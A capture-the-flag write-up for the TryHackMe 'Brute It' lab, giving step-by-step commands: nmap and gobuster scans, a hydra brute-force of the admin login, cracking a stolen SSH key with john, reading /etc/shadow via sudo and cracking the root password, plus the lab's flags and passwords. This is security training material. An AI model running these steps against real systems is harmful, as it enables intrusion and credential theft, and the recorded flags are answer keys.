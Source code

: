 ```yaml
---
description: https://tryhackme.com/room/bruteit
---
```


# Brute It

![](../../.gitbook/assets/10.10.113.210.png)

## Task 2 Reconnaissance

#### Search for open ports using nmap. How many ports are open?

```bash
nmap -n -sV -sC 10.10.113.210
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-08-42.png>)

{% hint style="success" %}
`2`
{% endhint %}

#### What version of SSH is running?

{% hint style="success" %}
`OpenSSH 7.6p1`
{% endhint %}

#### What version of Apache is running?

{% hint style="success" %}
`2.4.29`
{% endhint %}

#### Which Linux distribution is running?

{% hint style="success" %}
`Ubuntu`
{% endhint %}

#### Search for hidden directories on web server. What is the hidden directory?

```bash
gobuster dir -u http://10.10.113.210 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t128
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-16-00.png>)

{% hint style="success" %}
`/admin`
{% endhint %}

## Task 3 Getting a shell

#### What is the user:password of the admin panel?

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-18-32.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-18-43.png>)

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
'http-post-form://10.10.113.210/admin/:user=^USER^&pass=^PASS^:invalid' -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-20-47.png>)

{% hint style="success" %}
`admin:xavier`
{% endhint %}

#### Crack the RSA key you found. What is John's RSA Private Key passphrase?

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-25-40.png>)

```bash
wget http://10.10.113.210/admin/panel/id_rsa
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-29-14.png>)

{% hint style="success" %}
`rockinroll`
{% endhint %}

#### user.txt

```bash
chmod 400 id_rsa
ssh -i id_rsa john@10.10.113.210
find / -type f -name user.txt 2>/dev/null
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-35-38.png>)

{% hint style="success" %}
`THM{a_password_is_not_a_barrier}`
{% endhint %}

#### Web flag

{% hint style="success" %}
`THM{brut3_f0rce_is_e4sy}`
{% endhint %}

## Task 4 Privilege Escalation

#### Find a form to escalate your privileges. What is the root's password?

```bash
sudo -l
sudo /bin/cat /etc/passwd | grep root > passwd
sudo /bin/cat /etc/shadow | grep root > shadow
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-53-19.png>)

```bash
scp -i id_rsa john@10.10.113.210:/home/john/{passwd,shadow} .
unshadow passwd shadow > crackme
john --wordlist=/usr/share/wordlists/rockyou.txt crackme
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 18-58-19.png>)

{% hint style="success" %}
`football`
{% endhint %}

#### root.txt

```bash
su - root
cat root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 19-01-58.png>)

{% hint style="success" %}
`THM{pr1v1l3g3_3sc4l4t10n}`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.113.210.xmind" %}
